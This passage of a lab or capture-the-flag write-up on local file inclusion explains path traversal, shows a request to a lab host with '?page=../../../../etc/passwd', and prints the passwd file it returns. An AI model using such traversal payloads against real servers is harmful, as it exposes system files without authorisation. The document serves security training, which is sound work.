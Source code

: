 `../../etc/passwd` means to go out twice from the current working directory and then go to `/etc` directory and read the `passwd` file. Now the issue with this method is you need to be sure about the path of the file.

You can read the [interesting files to check out](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks) while testing for LFI.

[http://10.10.109.9/home?page=../../../../etc/passwd](http://10.10.109.9/home?page=../../../../etc/passwd)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

`No answer needed`

3. Once you include `/etc/passwd` then you should see entries something like:

   root:x:0:0::/root:/bin/bash
   bin:x:1:1::/:/sbin/nologin
   daemon:x:2:2::/:/sbin/nologin

To understand all those entries read [this](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) article.
